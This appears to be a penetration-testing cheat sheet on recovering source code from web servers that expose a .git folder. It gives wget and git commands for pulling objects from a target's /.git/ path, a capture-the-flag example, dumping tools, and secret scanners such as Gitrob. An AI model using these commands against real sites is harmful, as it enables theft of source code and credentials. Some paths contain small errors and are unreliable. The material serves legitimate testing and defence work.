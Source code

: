 # Git

## Summary

* [Methodology](#methodology)
    * [Recovering file contents from .git/logs/HEAD](#recovering-file-contents-from-gitlogshead)
    * [Recovering file contents from .git/index](#recovering-file-contents-from-gitindex)
* [Tools](#tools)
    * [Automatic recovery](#automatic-recovery)
        * [git-dumper.py](#git-dumperpy)
        * [diggit.py](#diggitpy)
        * [GoGitDumper](#gogitdumper)
        * [rip-git](#rip-git)
        * [GitHack](#githack)
        * [GitTools](#gittools)
    * [Harvesting secrets](#harvesting-secrets)
        * [trufflehog](#trufflehog)
        * [Yar](#yar)
        * [Gitrob](#gitrob)
        * [Gitleaks](#gitleaks)
* [Refererences]


## Methodology

The following examples will create either a copy of the .git or a copy of the current commit.

Check for the following files, if they exist you can extract the .git folder.

- `.git/config`
- `.git/HEAD`
- `.git/logs/HEAD`


### Recovering file contents from .git/logs/HEAD

1. Check for 403 Forbidden or directory listing to find the `/.git/` directory
2. Git saves all information in `.git/logs/HEAD` (try lowercase `head` too)
  ```powershell
  0000000000000000000000000000000000000000 15ca375e54f056a576905b41a417b413c57df6eb root <root@dfc2eabdf236.(none)> 1455532500 +0000        clone: from https://github.com/fermayo/hello-world-lamp.git
  15ca375e54f056a576905b41a417b413c57df6eb 26e35470d38c4d6815bc4426a862d5399f04865c Michael <michael@easyctf.com> 1489390329 +0000        commit: Initial.
  26e35470d38c4d6815bc4426a862d5399f04865c 6b4131bb3b84e9446218359414d636bda782d097 Michael <michael@easyctf.com> 1489390330 +0000        commit: Whoops! Remove flag.
  6b4131bb3b84e9446218359414d636bda782d097 a48ee6d6ca840b9130fbaa73bbf55e9e730e4cfd Michael <michael@easyctf.com> 1489390332 +0000        commit: Prevent directory listing.
  ```
3. Access the commit using the hash
  ```powershell
  # create an empty .git repository
  git init test
  cd test/.git

  # download the file
  wget http://web.site/.git/objects/26/e35470d38c4d6815bc4426a862d5399f04865c

  # first byte for subdirectory, remaining bytes for filename
  mkdir .git/object/26
  mv e35470d38c4d6815bc4426a862d5399f04865c .git/objects/26/

  # display the file
  git cat-file -p 26e35470d38c4d6815bc4426a862d5399f04865c
      tree 323240a3983045cdc0dec2e88c1358e7998f2e39
      parent 15ca375e54f056a576905b41a417b413c57df6eb
      author Michael <michael@easyctf.com> 1489390329 +0000
      committer Michael <michael@easyctf.com> 1489390329 +0000
      Initial.
  ```
4. Access the tree 323240a3983045cdc0dec2e88c1358e7998f2e39
  ```powershell
  wget http://web.site/.git/objects/32/3240a3983045cdc0dec2e88c1358e7998f2e39
  mkdir .git/object/32
  mv 3240a3983045cdc0dec2e88c1358e7998f2e39 .git/objects/32/

  git cat-file -p 323240a3983045cdc0dec2e88c1358e7998f2e39
      040000 tree bd083286051cd869ee6485a3046b9935fbd127c0        css
      100644 blob cb6139863967a752f3402b3975e97a84d152fd8f        flag.txt
      040000 tree 14032aabd85b43a058cfc7025dd4fa9dd325ea97        fonts
      100644 blob a7f8a24096d81887483b5f0fa21251a7eefd0db1        index.html
      040000 tree 5df8b56e2ffd07b050d6b6913c72aec44c8f39d8        js
  ```
5. Read the data (flag.txt)
  ```powershell
  wget http://web.site/.git/objects/cb/6139863967a752f3402b3975e97a84d152fd8f
  mkdir .git/object/cb
  mv 6139863967a752f3402b3975e97a84d152fd8f .git/objects/32/
  git cat-file -p cb6139863967a752f3402b3975e97a84d152fd8f
  ```


### Recovering file contents from .git/index

Use the git index file parser https://pypi.python.org/pypi/gin (python3).

```powershell
pip3 install gin
gin ~/git-repo/.git/index
```

Recover name and sha1 hash of every file listed in the index, and use the same process above to recover the file.

```powershell
$ gin .git/index | egrep -e "name|sha1"
name = AWS Amazon Bucket S3/README.md
sha1 = 862a3e58d138d6809405aa062249487bee074b98

name = CRLF injection/README.md
sha1 = d7ef4d77741c38b6d3806e0c6a57bf1090eec141
```


## Tools

### Automatic recovery

#### git-dumper.py

* [arthaud/git-dumper](https://github.com/arthaud/git-dumper)
```powershell
pip install -r requirements.txt
./git-dumper.py http://web.site/.git ~/website
```

#### diggit.py

* [bl4de/security-tools/diggit](https://github.com/bl4de/security-tools/)

```powershell
./diggit.py -u remote_git_repo -t temp_folder -o object_hash [-r=True]
./diggit.py -u http://web.site -t /path/to/temp/folder/ -o d60fbeed6db32865a1f01bb9e485755f085f51c1
```

`-u` is remote path, where .git folder exists  
`-t` is path to local folder with dummy Git repository and where blob content (files) are saved with their real names (`cd /path/to/temp/folder && git init`)  
`-o` is a hash of particular Git object to download

#### GoGitDumper

* [c-sto/gogitdumper](https://github.com/c-sto/gogitdumper)

```powershell
go get github.com/c-sto/gogitdumper
gogitdumper -u http://web.site/.git/ -o yourdecideddir/.git/
git log
git checkout
```

#### rip-git

* [kost/dvcs-ripper](https://github.com/kost/dvcs-ripper)

```powershell
perl rip-git.pl -v -u "http://web.site/.git/"

git cat-file -p 07603070376d63d911f608120eb4b5489b507692
tree 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
parent 15ca375e54f056a576905b41a417b413c57df6eb
author Michael <michael@easyctf.com> 1489389105 +0000
committer Michael <michael@easyctf.com> 1489389105 +0000

git cat-file -p 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
```

#### GitHack

* [lijiejie/GitHack](https://github.com/lijiejie/GitHack)

```powershell
GitHack.py http://web.site/.git/
```

#### GitTools

* [internetwache/GitTools](https://github.com/internetwache/GitTools)

```powershell
./gitdumper.sh http://target.tld/.git/ /tmp/destdir
git checkout -- .
```


### Harvesting secrets

#### trufflehog

> Searches through git repositories for high entropy strings and secrets, digging deep into commit history.

```powershell
pip install truffleHog # https://github.com/dxa4481/truffleHog
truffleHog --regex --entropy=False https://github.com/dxa4481/truffleHog.git
```

#### Yar

> Searches through users/organizations git repositories for secrets either by regex, entropy or both. Inspired by the infamous truffleHog.

```powershell
go get github.com/nielsing/yar # https://github.com/nielsing/yar
yar -o orgname --both
```

#### Gitrob

> Gitrob is a tool to help find potentially sensitive files pushed to public repositories on Github. Gitrob will clone repositories belonging to a user or organization down to a configurable depth and iterate through the commit history and flag files that match signatures for potentially sensitive files.

```powershell
go get github.com/michenriksen/gitrob # https://github.com/michenriksen/gitrob
export GITROB_ACCESS_TOKEN=deadbeefdeadbeefdeadbeefdeadbeefdeadbeef
gitrob [options] target [target2] ... [targetN]
```

#### Gitleaks

> Gitleaks provides a way for you to find unencrypted secrets and other unwanted data types in git source code repositories.

* Run gitleaks against a public repository
    ```powershell
    docker run --rm --name=gitleaks zricethezav/gitleaks -v -r https://github.com/zricethezav/gitleaks.git
    ```

* Run gitleaks against a local repository already cloned into /tmp/
    ```powershell
    docker run --rm --name=gitleaks -v /tmp/:/code/  zricethezav/gitleaks -v --repo-path=/code/gitleaks
    ```

* Run gitleaks against a specific Github Pull request
    ```powershell
    docker run --rm --name=gitleaks -e GITHUB_TOKEN={your token} zricethezav/gitleaks --github-pr=https://github.com/owner/repo/pull/9000
    ```


## References

- [Gitrob: Now in Go - Michael Henriksen - January 24, 2024](https://michenriksen.com/blog/gitrob-now-in-go/)
